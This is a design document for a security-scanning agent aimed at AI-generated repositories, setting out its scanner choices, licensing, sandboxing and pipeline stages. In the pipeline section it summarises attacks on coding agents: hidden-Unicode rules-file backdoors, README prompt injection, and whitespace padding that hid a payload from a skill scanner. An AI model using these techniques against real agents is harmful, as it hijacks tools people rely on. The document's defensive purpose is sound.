VibeGuard (VG) is an open-core, local-first security-engineering agent for AI-generated repositories. The stack below is chosen under four hard constraints from the design directive: (1) the deterministic engine must run fully offline, (2) nothing copyleft-by-network or license-restricted may be linked into the product, (3) every scanner must emit SARIF 2.1.0 natively or via a thin adapter we own, and (4) the engine must not depend on any single model vendor.

### 12.1 Detection and analysis tools (default path)

`n.a.` = not published by the project; do not infer. Runtime and offline columns are deliberately sparse because most projects publish neither ([scanner matrix §8](https://owasp.org/www-project-benchmark/) caveats are summarised in §12.5).

| # | Tool | License | Role in VG | SARIF | Offline | Why chosen |
|---|---|---|---|---|---|---|
| 1 | [Opengrep](https://github.com/opengrep/opengrep) | LGPL-2.1 ([API](https://api.github.com/repos/opengrep/opengrep)) | Primary polyglot SAST engine (S3), run as a **separate subprocess** | Native `--sarif-output`, 2.1.0 | Yes, fully offline | Semgrep-rule-compatible fork with a ~7-day release cadence ([releases](https://api.github.com/repos/opengrep/opengrep/releases)); created 2024-12-14 by a coalition reacting to Semgrep's rules-license change ([InfoQ](https://www.infoq.com/news/2025/02/semgrep-forked-opengrep/)); adds intrafile taint improvements and an interfile alpha line (`v1.28.0-interfile.alpha.1`, 2026-08-14) |
| 2 | **VG rule corpus** (own IP) | VG proprietary + optional CC-BY rules | VIBE-xx taxonomy rules, Opengrep syntax | via Opengrep | Yes | Required: `semgrep-rules` is under the Semgrep Rules License v1.0 — "You may use the rules only for your own internal business purposes… does not allow you to distribute the rules or to make them available to others as a service" ([rules license](https://semgrep.dev/legal/rules-license)) |
| 3 | [Trivy](https://github.com/aquasecurity/trivy) | Apache-2.0 | Vulns + IaC/misconfig + license + container (S3) | Native `-f sarif`, all four scanner classes ([reporting docs](https://trivy.dev/docs/latest/configuration/reporting/)) | Documented air-gap path: DBs are OCI images you can self-host, Checks Bundle embedded in the binary as fallback, `--offline-scan` ([air-gap docs](https://trivy.dev/docs/latest/advanced/air-gap/)) | One binary covers four scanner classes at a 5-day release cadence; anchor tool |
| 4 | [Syft](https://github.com/anchore/syft) | Apache-2.0 | SBOM generation, CycloneDX 1.x + SPDX (S2) | No — VG adapter converts inventory into finding provenance, SBOM stays CycloneDX | Yes after install | Binary/file-level inventory is the corroboration layer required because SCA manifest parsing is adversarially evadable ([Ivanova et al., ISC '24](https://cyberlab.usask.ca/papers/SCA_Tools_analysis__ISC24.pdf)) |
| 5 | [osv-scanner](https://github.com/google/osv-scanner) | Apache-2.0 | Second-opinion vulnerability matcher over lockfiles + Syft SBOM (S3) | Native `--format sarif`, 2.1.0 ([output docs](https://google.github.io/osv-scanner/output/)) | **Explicit guarantee**: "No network connection is required after the initial database download", `--offline --download-offline-databases` ([repo](https://github.com/google/osv-scanner)) | The only tool in the matrix with a published offline guarantee; disagreement with Trivy becomes a confidence signal in S4 |
| 6 | [Gitleaks](https://github.com/gitleaks/gitleaks) | MIT | Secrets, working tree + git history (S3) | Native `--report-format sarif` | Yes | Highest measured F1 of nine secret scanners: precision 0.46 / recall 0.88 / F1 0.60 on SecretBench (818 repos, 15,084 true secrets) ([Basak et al.](https://bradreaves.net/publication/bcrw23/bcrw23.pdf)) |
| 7 | [zizmor](https://github.com/zizmorcore/zizmor) | MIT | GitHub Actions static audit (S3) | No — VG JSON→SARIF adapter over the stable `--format=json-v1` schema ([usage docs](https://docs.zizmor.sh/usage/)) | n.a. | Purpose-built Actions auditor with near-daily releases; the Nx incident shows exactly this class matters ([Nx postmortem](https://nx.dev/blog/s1ngularity-postmortem)) |
| 8 | [Checkov](https://github.com/bridgecrewio/checkov) | Apache-2.0 | IaC across Terraform/CFN/K8s/Helm/ARM (S3) | Native `-o sarif` | n.a. | Widest IaC framework coverage; complements rather than duplicates Trivy's misconfig rule provenance |
| 9 | [OpenSSF Scorecard](https://github.com/ossf/scorecard) | Apache-2.0 | Repo trustworthiness score, feeds the S1 trust label | CLI is `default`/`json` only; SARIF via the [Action](https://github.com/ossf/scorecard-action) → VG adapter | Needs a GitHub token for API-driven checks | No code scanner answers "should I trust this repo at all?"; Dangerous-Workflow is a Critical-risk check ([checks.md](https://github.com/ossf/scorecard/blob/main/docs/checks.md)) |
| 10 | [safedep/vet](https://github.com/safedep/vet) | Apache-2.0 | Dependency policy-as-code (CEL) + malicious-package gate (S3) | Yes (SARIF documented) | Partial — cloud enrichment optional | Best-maintained permissive dependency gate with a native MCP interface; v1.18.2 (2026-08-13), last commit 2026-08-16 ([API](https://api.github.com/repos/safedep/vet)) |
| 11 | [DataDog/guarddog](https://github.com/DataDog/guarddog) | Apache-2.0 | Malicious/slopsquatted package heuristics + YARA (S3) | Yes | Yes | Correlates capability + threat indicator in the same file to reduce noise; v3.2.0 (2026-08-12), very active ([API](https://api.github.com/repos/DataDog/guarddog)) |
| 12 | **VG hallucination gate** (own IP) | VG | Registry existence, package age, popularity, typosquat distance (S3) | Native VG SARIF | Registry lookups need network; offline mode degrades to typosquat + local-corpus checks only | 19.7% of generated package references were hallucinated across 2.23M samples / 16 models, 205,474 unique fake names, 43% reproducible across reruns ([USENIX 2025 via CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-slopsquatting-ai-supply-chain-20260419-csa/)); purpose-built OSS tools here are 0–3-star single-author projects ([phantom_guard](https://api.github.com/repos/matte1782/phantom_guard), [slopguard](https://api.github.com/repos/WT-MM/slopguard)) |
| 13 | **VG agent-hijack scanner** (own IP) | VG | S1: instruction-file inventory, unicode/obfuscation decode, injection heuristics tiers 1–4, MCP config audit | Native VG SARIF | Yes | Research found **no maintained tool** doing repo-content injection triage; `ctxlint` (7 stars) and `claude-code-doctor` (1 star, single commit) are the closest and neither is adversarially oriented ([ctxlint](https://api.github.com/repos/YawLabs/ctxlint), [claude-code-doctor](https://api.github.com/repos/Mishit18/claude-code-doctor)) |
| 14 | [hadolint](https://github.com/hadolint/hadolint) — tier 2 | GPL-3.0 ⚠ subprocess only | Dockerfile AST + inline-bash lint | Native `-f sarif` | n.a. | Unique Dockerfile AST depth; GPL means **never link**, invoke as a binary |
| 15 | [gosec](https://github.com/securego/gosec) — tier 2 | Apache-2.0 | Go-idiomatic SAST (V2) | Native `-fmt=sarif` | n.a. | Richest native output set of the language SASTs |
| 16 | [Bandit](https://github.com/PyCQA/bandit) — tier 2 | Apache-2.0 | Python-idiomatic SAST | **No** — SARIF not stated in the [formatter docs](https://bandit.readthedocs.io/en/latest/formatters/index.html); VG adapter required | n.a. | Cheap complement to Opengrep Python rules |
| 17 | [cisco-ai-defense/mcp-scanner](https://github.com/cisco-ai-defense/mcp-scanner) — optional | Apache-2.0 | Deep MCP-surface scan when a repo ships MCP servers | n.a. | Yes if YARA + local LLM only (Ollama/vLLM) | Cleanest "pluggable engines behind one SDK" design; CLI **and** REST; 4.8.3 on 2026-08-07 ([API](https://api.github.com/repos/cisco-ai-defense/mcp-scanner)) |
| 18 | [trailofbits/mcp-context-protector](https://github.com/trailofbits/mcp-context-protector) — optional | Apache-2.0 | Wrap untrusted MCP servers during dynamic analysis | n.a. | Yes | Trust-on-first-use config pinning (rug-pull defence) + ANSI sanitisation from a respected security firm ([API](https://api.github.com/repos/trailofbits/mcp-context-protector)) |

### 12.2 Rejected, with the reason

| Rejected | Category of problem | Evidence |
|---|---|---|
| **CodeQL CLI** | **License trap.** GitHub CodeQL Terms & Conditions: per-user, permitted only for open-source codebases, academic research and CI/CD on OSS hosted on GitHub.com; "may not be used for any purpose not expressly set forth above". Private/non-OSS requires paid GitHub Code Security | [LICENSE.md](https://github.com/github/codeql-cli-binaries/blob/main/LICENSE.md), [GitHub docs](https://docs.github.com/en/code-security/concepts/code-scanning/codeql/codeql-cli) — painful, because CodeQL had the **best measured precision** of any tool reviewed (file-level 35.7%, method-level 66.7%, [Lund 2025](https://lup.lub.lu.se/luur/download?func=downloadFile&recordOId=9189955&fileOId=9189961); ~71% precision on Juliet, [Shen et al.](https://machiry.github.io/files/emsast.pdf)) |
| **semgrep-rules** | **License trap.** Rules License v1.0 forbids redistribution and service offerings | [rules license](https://semgrep.dev/legal/rules-license), [licensing docs](https://docs.semgrep.dev/licensing) |
| **Semgrep OSS engine** | Usable (LGPL-2.1) but CE "can only analyze code within the boundaries of a single function or file" and therefore "will miss many true positives" ([repo](https://github.com/semgrep/semgrep)); Opengrep gives the same syntax without the rules entanglement | [LICENSE](https://github.com/semgrep/semgrep/blob/develop/LICENSE) |
| **Brakeman** | **License trap.** Brakeman Public Use License: commercial SaaS, commercial distribution and use "as a component of a value-added service/product" all require a paid license | [LICENSE.md](https://github.com/presidentbeef/brakeman/blob/main/LICENSE.md) |
| **SonarQube CE** | **License trap + accuracy.** Bundled analyzers moved to Sonar Source-Available License v1.0 on 2024-11-29; F1 27.0% on OWASP Benchmark and 3.8% file-level precision with a 61.9% "possibly-positive" rate on real CVEs | [sonarsource.com/license](https://www.sonarsource.com/license/), [Li et al.](https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf), [Lund](https://lup.lub.lu.se/luur/download?func=downloadFile&recordOId=9189955&fileOId=9189961) |
| **TruffleHog** | AGPL-3.0 (network copyleft) **and** live credential verification would mean VG making outbound calls with secrets found in *untrusted* repos — a legal and abuse-liability problem. Measured precision 0.06 / F1 0.11 | [API](https://api.github.com/repos/trufflesecurity/trufflehog), [Basak et al.](https://bradreaves.net/publication/bcrw23/bcrw23.pdf). Optional out-of-process, verification-only, opt-in |
| **Nosey Parker** | **Archived** (`archived: true`) | [API](https://api.github.com/repos/praetorian-inc/noseyparker) |
| **Terrascan** | **Archived** (`archived: true`) | [API](https://api.github.com/repos/tenable/terrascan) |
| **tfsec** | Superseded — "tfsec is now part of Trivy" | [repo](https://github.com/aquasecurity/tfsec) |
| **detect-secrets** | No release since 2024-05-06; baseline model suits internal repos, not one-shot untrusted scans | [API](https://api.github.com/repos/Yelp/detect-secrets) |
| **KICS / Grype / pip-audit / npm audit / bundler-audit / dep-scan** | Redundant with Checkov+Trivy / Trivy+osv-scanner. `npm audit` additionally **POSTs the dependency tree to the registry** with no offline mode — unacceptable for untrusted repos | [npm docs](https://docs.npmjs.com/cli/v11/commands/npm-audit) |
| **Socket CLI** | MIT code but gated on `SOCKET_CLI_API_TOKEN`, i.e. a cloud round-trip per scan | [repo](https://github.com/SocketDev/socket-cli) |
| **bearer/bearer** | **Elastic License 2.0** — not OSI, forbids providing the software as a managed service | [LICENSE.txt](https://github.com/Bearer/bearer/blob/main/LICENSE.txt) |
| **vulnhuntr / buttercup / securevibes / codemodder-python / Theori CRS** | AGPL-3.0 — copyleft blocks embedding. `vulnhuntr` is also stale since 2025-02-06 | [vulnhuntr](https://api.github.com/repos/protectai/vulnhuntr/commits), [buttercup](https://api.github.com/repos/trailofbits/buttercup), [codemodder](https://api.github.com/repos/pixee/codemodder-python), [theori archive](https://api.github.com/repos/theori-io/aixcc-afc-archive) |
| **Atlantis (Team-Atlanta)** | README says MIT; the [LICENSE file](https://github.com/Team-Atlanta/aixcc-afc-atlantis/blob/main/LICENSE) says GPL-3.0. Treat as GPL-3.0 — license-metadata conflict is itself a supply-chain smell | [repo](https://github.com/Team-Atlanta/aixcc-afc-atlantis) |
| **SunWeb3Sec/llm-sast-scanner** | **No license at all** (`license: null`, `/license` 404) → all rights reserved. Also README installs from `anthropic-lab/llm-sast-scanner`, implying an Anthropic tie the repo does not evidence | [API](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner) |
| **semgrep/mcp** | **Archived/deprecated**, folded into the semgrep binary | [API](https://api.github.com/repos/semgrep/mcp) |
| **stacklok/codegate** | **Archived + README marked DEPRECATED**, despite being the architecturally right proxy-level guardrail | [API](https://api.github.com/repos/stacklok/codegate) |
| **ZAP / sqlmap / Nuclei (default path)** | Require running the untrusted application — a different engine and a materially worse risk model. Optional in V3 DAST mode only | [ZAP docker docs](https://www.zaproxy.org/docs/docker/), [sqlmap LICENSE](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE) |
| **garak / promptfoo / NeMo Guardrails** | Test or guard **deployed models**, not repositories | [garak](https://github.com/NVIDIA/garak), [NeMo](https://github.com/NVIDIA/NeMo-Guardrails) |
| **PurpleLlama components** | Llama Community License (NOASSERTION) — conditional for commercial use; use CyberSecEval/AutoPatchBench as *benchmarks*, do not embed CodeShield | [LICENSE](https://github.com/meta-llama/PurpleLlama/blob/main/LICENSE) |
| **Nova-Hunting/nova-proximity, akitaonrails/ai-jail, Edison-Watch/open-edison** | GPL-3.0 — subprocess-only at best | [nova-proximity](https://api.github.com/repos/Nova-Hunting/nova-proximity), [ai-jail](https://api.github.com/repos/akitaonrails/ai-jail), [open-edison](https://api.github.com/repos/Edison-Watch/open-edison) |
| **Dicklesworthstone/destructive_command_guard** | "MIT License (with OpenAI/Anthropic Rider)" — non-standard, needs legal review despite being MIT-shaped; blocklist approach is bypassable by obfuscated commands | [license](https://api.github.com/repos/Dicklesworthstone/destructive_command_guard/license) |
| **obra/packnplay, coplane/localsandbox, damn-vulnerable-MCP-server, mcp-injection-experiments** | No license file → not vendorable. The latter two are still valuable as **test targets/fixtures** we run against, never ship | [packnplay](https://api.github.com/repos/obra/packnplay), [localsandbox](https://api.github.com/repos/coplane/localsandbox), [DVMCP](https://api.github.com/repos/harishsg993010/damn-vulnerable-MCP-server) |

### 12.3 Runtime, model and infrastructure choices

| Layer | Choice | Reasoning |
|---|---|---|
| Language / runtime | **Python 3.12** | Directive D1. Most of the ecosystem we orchestrate (Checkov, Bandit, guarddog, mcp-scanner, the OSS MCP SDKs) is Python; scanners are subprocesses so Python's performance is irrelevant to scan time |
| Packaging / env | **uv** (lockfile-pinned, `--frozen` in CI) | Reproducible builds are a prerequisite for the provenance claims in §15; VG must be able to prove which tool versions produced a finding |
| Lint / format | **ruff** | Single fast tool; no security claim attached |
| Tests | **pytest** + golden SARIF fixtures + property tests on the normalizer | The correlation/dedup layer (§13, S4) is where silent data loss happens; it needs fixture-level regression tests, not unit tests alone |
| Container | **Docker** image with all scanners pinned by digest, plus an air-gap image bundling Trivy DB + OSV DB | Air-gap is a stated *limitation* of market leaders — Checkmarx Developer Assist "requires cloud connectivity and does not work in air-gapped environments" ([Pixee comparison](https://www.pixee.ai/blog/checkmarx-vs-veracode)), Veracode is SaaS-only ([pricing summary](https://checkthat.ai/brands/veracode/pricing)) |
| Sandbox (Linux) | **bubblewrap + Landlock + seccomp**, non-setuid/userns | The pattern `ai-jail` implements and documents honestly as "a useful layer, not a replacement for a disposable VM when running hostile code" ([README](https://api.github.com/repos/akitaonrails/ai-jail/readme)). Deploy non-setuid: bubblewrap has two privilege-escalation CVEs in setuid mode, CVE-2026-41163 and CVE-2020-5291 ([advisories](https://api.github.com/repos/containers/bubblewrap/security-advisories)) |
| Sandbox (macOS dev) | **`sandbox-exec` via [srt](https://github.com/anthropic-experimental/sandbox-runtime)** (Apache-2.0) | Vendor-maintained, fastest-moving in the category (4,983★ in ~10 months, v0.0.73 2026-08-13, [API](https://api.github.com/repos/anthropic-experimental/sandbox-runtime)). Residual risk acknowledged: advisory `GHSA-9gqj-5w7c-vx47` "Network Sandboxing Escape" ([advisories](https://api.github.com/repos/anthropic-experimental/sandbox-runtime/security-advisories)), and Apple has deprecated `sandbox-exec` |
| Sandbox tier 3 (execution modes) | **gVisor** ([google/gvisor](https://github.com/google/gvisor), Apache-2.0) or microVM ([matchlock](https://github.com/jingkaihe/matchlock), MIT) | Required only for S8 verification and optional container/DAST stages, i.e. the only stages that execute repo code. gVisor is the standard syscall-interception layer under [kubernetes-sigs/agent-sandbox](https://github.com/kubernetes-sigs/agent-sandbox) |
| Fleet mode (V3) | **kubernetes-sigs/agent-sandbox** `Sandbox` CRD | Purpose-built orchestrator for isolated, stateful, singleton agent runtimes; delegates low-level isolation ([README](https://api.github.com/repos/kubernetes-sigs/agent-sandbox/readme)) |
| Egress control | **VG allowlist proxy** (own, TLS-terminating) + optional [pipelock](https://github.com/luckyPipewrench/pipelock) (Apache-2.0) for signed action receipts | See §17.4. Own it because the failure modes are specific: allowlisted DNS tools were a real exfil channel (CVE-2025-55284) and TLS-blind hostname proxies permit domain fronting |
| Secret brokering | **Broker-injected at the proxy**, placeholder inside the sandbox; reference designs [matchlock](https://api.github.com/repos/jingkaihe/matchlock/readme), [gondolin](https://api.github.com/repos/earendil-works/gondolin/readme), [Infisical/agent-vault](https://api.github.com/repos/Infisical/agent-vault/readme) | The strongest emerging pattern: defeats credential exfiltration even under successful injection, which pure sandboxes do not. Note agent-vault's license is NOASSERTION with an `ee/` carve-out — reference the design, don't embed |
| Telemetry | **OpenTelemetry** traces/metrics per stage, plus the hash-chained audit log (§17.8) | Per-stage spans are how the budget governor (§13.7) and the published time/cost-per-KLOC metric (§18) are measured rather than estimated |
| Model layer | **BYO / model-agnostic**: Anthropic, OpenAI, Google, Bedrock/Vertex, **or local via Ollama/vLLM/LM Studio** | Directive D1: the Agent SDK forbids offering claude.ai login/rate limits for third-party products without approval and bans "Claude Code" branding ([Agent SDK overview](https://docs.claude.com/en/docs/claude-code/sdk/sdk-overview)). The engine must not depend on Claude |
| Orchestration | **Own DAG runner**, patterned on [seclab-taskflow-agent](https://github.com/GitHubSecurityLab/seclab-taskflow-agent) (MIT: YAML taskflows, Pydantic grammar validation, checkpoint/resume, configurable AI endpoint) | We copy the pattern rather than depend on it, because VG's DAG must enforce the trust-boundary rules in §17 that a general framework does not |
| Output formats | **SARIF 2.1.0** (canonical), **CycloneDX 1.7** SBOM (ECMA-424, [spec](https://cyclonedx.org/specification/overview/)), SPDX 3.0 alternate ([SPDX](https://spdx.dev/use/specifications/)), in-toto attestation, Sigstore signature | SARIF 2.1.0 is the only version GitHub accepts ([SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning)); in-toto and Sigstore versions are **n.a.** on their sites |

### 12.4 License-surface summary

Default path: 1× LGPL-2.1 (Opengrep, subprocess-isolated), 3× MIT, 6× Apache-2.0, plus VG-owned rule and detector IP. No AGPL, no Elastic License, no paid-license requirement, no mandatory cloud token. Tier-2 adds one GPL-3.0 binary (hadolint) invoked strictly as a subprocess.

### 12.5 What is explicitly `n.a.` (and why that matters)

Runtime on a mid-size repo is unpublished for nearly every tool in the matrix. The only concrete public figures located were CodeQL at 40 minutes on Juliet producing 11,101 warnings ([Shen et al.](https://machiry.github.io/files/emsast.pdf)) and a Nosey Parker README example reporting 17 seconds. Two independent studies had to **abandon cross-file analysis over scan time** — Semgrep Pro's cross-file mode was disabled for "unreasonably long scan times" ([Lund](https://lup.lub.lu.se/luur/download?func=downloadFile&recordOId=9189955&fileOId=9189961)). Offline capability is explicitly documented only for osv-scanner, Trivy, bundler-audit, dep-scan and Grype-after-DB-download. VG therefore publishes its **own** measured time/cost per KLOC (§18) and treats every third-party performance claim as unverified until measured on our corpus.

---

## 13. Security Pipeline

### 13.1 Why the original linear pipeline was rejected

The proposed pipeline was a line: clone → read repo docs → inventory → scan → AI analyse → fix → report. Seven concrete corrections were made, each traceable to a documented failure:

1. **Trust classification must precede any read of repo instructions.** A linear pipeline that "reads repo docs" before classifying them ingests attacker-controlled instructions into the analysis context. This is the exact mechanism of the Rules File Backdoor, where invisible Unicode in `.cursorrules` / `.github/copilot-instructions.md` silently steers generated code and propagates via forks ([Pillar Security](https://www.pillar.security/blog/new-vulnerability-in-github-copilot-and-cursor-how-hackers-can-weaponize-code-agents)), and of README injection, where payloads sit up to two document links from the README ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)). Anthropic's own reviewer states it "is not hardened against prompt injection attacks and should only be used to review trusted PRs" ([claude-code-security-review](https://github.com/anthropics/claude-code-security-review)) — VG cannot inherit that limitation and still claim to scan untrusted repos. Hence **S1 before S2**.
2. **It must be a DAG, not a line.** Eight independent scanners have no data dependency on each other and wildly different runtimes. Serialising them multiplies wall-clock by ~8 and makes per-stage timeouts meaningless. S3 is a fan-out with per-branch budgets; S4 is the join.
3. **No code execution outside the sandbox, and never in a stage that also has network.** The original pipeline implied `npm install`/build for inventory. Lifecycle scripts are a live attack vector: the Nx malicious versions ran a `postinstall` that scanned the filesystem, collected credentials and published them to public repos under the victim's own account ([GHSA-cxm3-wv7p-598c](https://github.com/nrwl/nx/security/advisories/GHSA-cxm3-wv7p-598c)). VG parses manifests and lockfiles; it never installs. This is also a direct application of the Rule of Two — never combine untrusted input, sensitive access and egress in one process ([Willison summary](https://simonwillison.net/2025/Nov/2/new-prompt-injection-papers/)).
4. **Auto-fix must be gated behind machine verification and never auto-applied.** Independent measurement puts clean AI patch rates at 26.0% of 6,080 patches ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)) and 5–11% post-verification on AutoPatchBench-Lite ([Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)). A pipeline that applies patches at those rates ships regressions.
5. **A budget/timeout governor and diff-aware incremental mode are load-bearing, not optimisations.** Without them the DAG has unbounded cost on adversarial inputs (see whitespace inflation, §13.4/S1) and unbounded LLM spend — the `seclab-taskflows` README warns whole-repo audits "can take several hours" and "make a *lot* of AI requests, which can cost a non-trivial amount of money" ([repo](https://github.com/GitHubSecurityLab/seclab-taskflows)); Theori's CRS README warns it "can easily spend $1,000 or more in under an hour" ([archive](https://github.com/theori-io/aixcc-afc-archive)).
6. **`abstain` must be a first-class outcome.** Fix success collapses to 15.2% with *incorrect* vulnerability guidance versus 65% with correct guidance ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)) — so a low-confidence finding is worse than no finding, because it actively degrades the downstream fix.
7. **Container/DAST stages are optional and off by default** because they require executing the repo.

### 13.2 The DAG

```
                        ┌──────────────────────────────┐
                        │ S0 ACQUIRE (sandbox tier 1)  │
                        │ shallow clone, no hooks,     │
                        │ no submodule exec, size/     │
                        │ entropy/symlink limits       │
                        └───────────────┬──────────────┘
                                        │ read-only bind mount
                        ┌───────────────▼──────────────┐
                        │ S1 REPO TRUST & AGENT-HIJACK │◄── no LLM, no network
                        │ instruction-file inventory,  │
                        │ unicode decode, tiers 1-4,   │
                        │ MCP config audit → T-labels  │
                        └───────────────┬──────────────┘
                                        │ trust labels T0..T3
                        ┌───────────────▼──────────────┐
                        │ S2 INVENTORY (parse only)    │
                        │ lang/framework/pkg-mgr/entry │
                        │ points + Syft SBOM           │
                        └───────────────┬──────────────┘
        ┌───────────┬───────────┬───────┴───┬───────────┬───────────┬───────────┐
        ▼           ▼           ▼           ▼           ▼           ▼           ▼
   ┌─────────┐ ┌─────────┐ ┌─────────┐ ┌─────────┐ ┌─────────┐ ┌─────────┐ ┌─────────┐
   │S3a SAST │ │S3b SEC  │ │S3c SCA  │ │S3d IaC  │ │S3e CI   │ │S3f POST │ │S3g DEP- │
   │Opengrep │ │Gitleaks │ │osv+Trivy│ │Trivy+   │ │zizmor   │ │URE      │ │PROV     │
   │+VG rules│ │         │ │+vet     │ │Checkov  │ │         │ │Scorecard│ │halluc.  │
   └────┬────┘ └────┬────┘ └────┬────┘ └────┬────┘ └────┬────┘ └────┬────┘ └────┬────┘
        └───────────┴───────────┴───────┬───┴───────────┴───────────┴───────────┘
                                        ▼
                        ┌──────────────────────────────┐
                        │ S4 CORRELATE & DEDUP         │  deterministic
                        │ fingerprints, purl+alias     │
                        │ join, CWE normalise,         │
                        │ cross-tool agreement         │
                        └───────────────┬──────────────┘
                        ┌───────────────▼──────────────┐
                        │ S5 CONTEXT BUILD (no LLM)    │
                        │ reachability heuristics,     │
                        │ route/entrypoint map,        │
                        │ auth/authz map, DF candidates│
                        └───────────────┬──────────────┘
                        ┌───────────────▼──────────────┐
                        │ S6 AI ANALYSIS (LLM)         │◄── input: neutralized
                        │ triage, logic/authz, intent  │    <untrusted_data>
                        │ mismatch, explanation        │    envelopes only
                        └───────────────┬──────────────┘
                        ┌───────────────▼──────────────┐
                        │ S7 RISK ENGINE (§16)         │  deterministic
                        └───────────────┬──────────────┘
                          ┌─────────────┴──────────────┐
                          ▼                            ▼
        ┌──────────────────────────────┐  ┌──────────────────────────────┐
        │ S8 FIX PIPELINE (opt-in,     │  │ S9 REPORT + EVIDENCE BUNDLE  │
        │ sandbox tier 3 = execution)  │──▶│ SARIF, CycloneDX, signed     │
        │ see §15                      │  │ JSON, MD/HTML, audit log     │
        └──────────────────────────────┘  └──────────────────────────────┘

  OPTIONAL, OFF BY DEFAULT (tier-3 sandbox, execution required):
  SX container-build scan · SY DAST against a deployed instance (V3)
```

### 13.3 Trust and network posture per stage

| Stage | Reads untrusted? | Network? | Executes repo code? | Holds secrets? |
|---|---|---|---|---|
| S0 | yes (bytes) | git fetch only, allowlisted host | no | no |
| S1–S5 | yes | **no** | **no** | no |
| S6 | only via `<untrusted_data>` envelopes | model endpoint only, via broker proxy | no | no (broker injects) |
| S7 | no (structured findings) | KEV/EPSS refresh, cacheable offline | no | no |
| S8 | yes | **no** during test/verify | **yes**, tier-3 sandbox | no |
| S9 | no | GitHub App API via Orchestrator | no | yes, **Orchestrator side only** |

No stage combines untrusted input + secrets + egress. That is the Rule of Two applied as a table, not a slogan.

### 13.4 Per-stage contract: inputs, outputs, failure modes, timeouts

Default timeouts are budgets for a ≤200 KLOC repo on 4 vCPU / 8 GB; they are configuration, and the governor (§13.7) reallocates unused budget.

| Stage | Inputs | Outputs | Failure modes | Default timeout | On timeout |
|---|---|---|---|---|---|
| **S0 Acquire** | repo URL or path, depth, size cap | ephemeral read-only worktree, commit SHA, `versionControlProvenance` | git hooks executing (mitigated: `core.hooksPath=/dev/null`, no submodule init); symlinks pointing outside the workspace — a real vector, `gh pr checkout` pulled a symlink to `/workspaces/.codespaces/shared/user-secrets-envs.json` in [RoguePilot](https://orca.security/resources/blog/roguepilot-github-copilot-vulnerability/); zip-bomb / >N GB / >M files | 120 s | hard fail, no partial scan |
| **S1 Trust** | file bytes, filenames, git metadata | trust labels per file, `VIBE-INJ-*` findings with decoded payloads, MCP config audit, repo trust score | **anti-truncation is the primary failure mode**: ~100,000 prepended newlines pushed a payload outside ClawHub's inspection window ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)) — VG scans after large whitespace regions, not only the first window. Also: binary/archive traversal (`.pyc`, DOCX-as-ZIP), split payloads across elements, dynamic assembly (unscannable statically → declared out of scope) | 180 s | degrade to Tier-1 signals only, mark stage `partial`, **never** mark repo trusted |
| **S2 Inventory** | worktree, manifests, lockfiles | project graph, entrypoints, package managers, CycloneDX SBOM | manifest lying about dependencies — assume adversarial and corroborate with Syft file-level inventory ([Ivanova et al.](https://cyberlab.usask.ca/papers/SCA_Tools_analysis__ISC24.pdf)); monorepo explosion | 300 s | emit partial SBOM, flag `sbom_incomplete` |
| **S3a Opengrep** | worktree + VG rules | SARIF 2.1.0 | interfile mode blowing the budget (two studies abandoned cross-file analysis over runtime); OOM on generated megafiles | 600 s (interfile 1800 s, opt-in) | keep intrafile results, mark interfile `skipped_budget` |
| **S3b Gitleaks** | worktree + git history | SARIF | history depth cost; ~0.46 precision means noise is expected and must be ranked, not gated | 300 s | working-tree-only mode |
| **S3c SCA** | lockfiles + SBOM | 2× SARIF (Trivy, osv-scanner) + vet policy verdicts | DB unavailable (Trivy pulls from ghcr.io + Docker Hub mirrors, 429 → registry fallback, [DB docs](https://trivy.dev/docs/latest/configuration/db/)); Grype-style DB-schema EOL ([Anchore announcements](https://oss.anchore.com/docs/announcements/)); the ~20× spread across SCA tools on identical input (17–332 vulnerable Maven deps, [Imtiaz et al.](https://arxiv.org/abs/2108.12078)) means single-tool output is not authoritative | 300 s | use cached DB, stamp DB age into the report |
| **S3d IaC** | IaC files | 2× SARIF | rule-ID churn at 4-day release cadence breaking suppressions (mitigated by taxonomy-layer suppression, §13.6) | 240 s | partial |
| **S3e zizmor** | `.github/workflows` | JSON → VG SARIF adapter | schema change in `json-v1`; workflows in unusual paths | 60 s | partial |
| **S3f Scorecard** | repo API | JSON → VG SARIF | needs a GitHub token; rate limits; **offline mode disables it entirely** | 120 s | skip, mark `trust_signal_unavailable` |
| **S3g Dep-provenance** | dependency names + registries | hallucination/typosquat findings | registry rate limits; offline degradation to typosquat-distance only; false positives on legitimately new internal packages | 180 s | degrade, lower confidence |
| **S4 Correlate** | all SARIF + raw outputs | unified Finding set with `evidence[]` | **silent finding loss** is the worst failure here — never dedup on line number alone; the file-vs-function localisation gap (Flawfinder warned in a vulnerable file for 89% of VCCs but the vulnerable function for only 52%, [Charoenwet et al.](https://arxiv.org/html/2407.12241v1)) means coarse localisation varies per tool | 120 s | fail loudly; a corrupt correlation is worse than none |
| **S5 Context** | worktree + findings | route map, auth map, reachability class, data-flow candidates | over-claiming reachability; framework-specific routing missed | 300 s | mark exposure `unknown` → risk multiplier defaults conservative |
| **S6 AI** | envelopes, findings, context | confidence adjustments, `source=ai` findings, explanations | hallucination, injection of the analyser itself, token blowout, provider outage | 900 s wall, plus token/cost cap | emit deterministic-only report; mark `ai_layer_skipped`. **The report must still be valid without S6** |
| **S7 Risk** | findings + KEV/EPSS | scores, bands, SSVC decisions | stale EPSS/KEV; divide-by-zero on missing factors (defaults are explicit, §16) | 60 s | use last cached feed, stamp age |
| **S8 Fix** | selected findings | verified patch candidates or abstentions | see §15 | per-finding 1800 s | abstain |
| **S9 Report** | everything | SARIF, SBOM, signed findings, MD/HTML, audit log | SARIF >10 MB gzipped is rejected 413 by GitHub; >5,000 effective results are dropped; same tool+category **overwrites** prior results ([SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning)) | 120 s | split by category, always write local artifacts first |

### 13.5 Incremental / diff-aware mode

